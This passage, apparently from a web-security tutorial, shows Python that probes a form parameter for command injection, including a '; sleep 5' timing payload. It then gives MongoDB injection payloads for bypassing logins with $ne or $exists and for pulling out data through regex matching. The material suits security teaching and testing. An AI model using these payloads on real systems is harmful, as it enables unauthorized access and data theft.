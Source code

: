 ```python
        data = {param: payload}
        response = requests.post(url, data=data)
        
        # Look for command output in response
        if "www-data" in response.text or "root" in response.text:
            print(f"[!] Command Injection: {payload}")
            return True
            
        # Time-based detection
        import time
        start = time.time()
        data = {param: "; sleep 5"}
        requests.post(url, data=data)
        if time.time() - start > 4:
            print(f"[!] Time-based Command Injection")
            return True
    
    return False
```

---

## **NOSQL INJECTION - THE MODERN THREAT** 🍃⚡

### **MongoDB Injection Examples:**

#### **Authentication Bypass:**
```javascript
// Normal login
db.users.find({username: "admin", password: "password"})

// NoSQL Injection - Always true condition
{
    "username": "admin", 
    "password": {"$ne": "wrongpassword"}
}

// OR even simpler
{
    "username": "admin", 
    "password": {"$exists": true}
}
```

#### **Data Extraction:**
```javascript
// Regex-based extraction
{
    "username": {"$regex": ".*"},
    "password": {"$regex": ".*"}
}

// Extract character by character  
{
    "username": {"$regex": "^a"},
    "password": {"$regex": ".*"}
}
```
